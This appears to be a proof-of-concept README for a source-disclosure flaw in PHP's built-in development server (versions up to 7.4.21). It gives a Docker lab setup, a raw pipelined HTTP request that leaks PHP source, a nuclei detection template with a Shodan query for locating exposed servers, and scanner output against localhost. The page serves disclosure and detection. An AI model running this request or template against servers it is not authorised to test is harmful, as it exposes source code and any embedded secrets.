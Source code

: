 # [PHP Development Server <= 7.4.21 - Remote Source Disclosure](https://blog.projectdiscovery.io/php-http-server-source-disclosure/)

## demo

```shell
docker build . -t phptest
docker run -p 8888:8888 phptest
```

![poc.png](./../img/poc.png)

```http
GET /index.php HTTP/1.1
Host: localhost:8888
Content-Length: 29


GET /xyz.xyz HTTP/1.1



```

## nuclei template

```yaml
id: php-src-diclosure

info:
  name: PHP <= 7.4.21 - Built-in Server Remote Source Disclosure
  author: pdteam
  severity: medium
  metadata:
    verified: true
    shodan-query: The requested resource <code class="url">
  tags: php,phpcli,disclosure

requests:
  - raw:
      - |+
        GET /  HTTP/1.1
        Host: {{Hostname}}
        
        GET /{{rand_base(3)}}.{{rand_base(2)}} HTTP/1.1
   
     

        
        
      - |+
        GET /  HTTP/1.1
        Host: {{Hostname}}

    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body_1, "<?php")' 
          - '!contains(body_2, "<?php")'
        condition: and
```

```bash
┌──(realkali㉿kali)-[~/Documents]
└─$ nuclei -u localhost:8888 -t ./test.yaml

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v2.8.8

                projectdiscovery.io

[INF] Using Nuclei Engine 2.8.8 (latest)
[INF] Using Nuclei Templates 9.3.6 (latest)
[INF] Templates added in last update: 30
[INF] Templates loaded for scan: 1
[INF] Targets loaded for scan: 1
[INF] Running httpx on input host
[INF] Found 1 URL from httpx
[php-src-diclosure] [http] [medium] http://localhost:8888
```

## References

<https://blog.projectdiscovery.io/php-http-server-source-disclosure/>
